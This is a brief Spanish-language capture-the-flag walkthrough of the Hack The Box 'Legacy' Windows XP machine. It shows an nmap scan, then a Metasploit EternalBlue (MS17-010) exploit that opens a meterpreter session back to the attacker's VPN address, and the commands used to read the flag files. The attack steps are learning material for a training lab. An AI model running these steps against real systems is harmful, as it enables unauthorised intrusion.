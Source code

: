 Maquina: Windows
Level: Easy
IP: 10.10.10.4

## Herramientas a utilizar:

- nmap
- metaexploit

### Fase 1 Enumeracion 

```
$ nmap -A -o scan_legacy.txt 10.10.10.4
```
Esto no traera lo siguiente puerto
|PORT|STATE| SERVICE|VERSION|
|----|----|----|----|
|139/tcp|  open|   netbios-ssn|   Microsoft Windows netbios-ssn
|445/tcp|  open|  microsoft-ds|  Windows XP microsoft-ds
|3389/tcp| closed| ms-wbt-server|

La parte muy importante a destacar en esta maquina es que mas abajo no dice que la version de SMB que este equipo tiene es smb1 la cual es vulnerable a **eternablue.**

### Fase 2 Explotacion
Aqui utilizaremos MetaExploit
```
msfconsole
msf6> use exploit/windows/smb/ms17_010_psexec
set rhost 10.10.10.4
set lhost 10.10.14.x (la ip que nos asigna la vpn_htb).
run
```

Con esto ya tenemos **meterpreter>** desde aqui solo es enumerar.
```
cd c:\Documents and Settings\john\Desktop
```
Flag del user `type user.txt`
```
cd C:\Documents and Settings\Administrator\Desktop\
```
Flag del root `type root.txt`
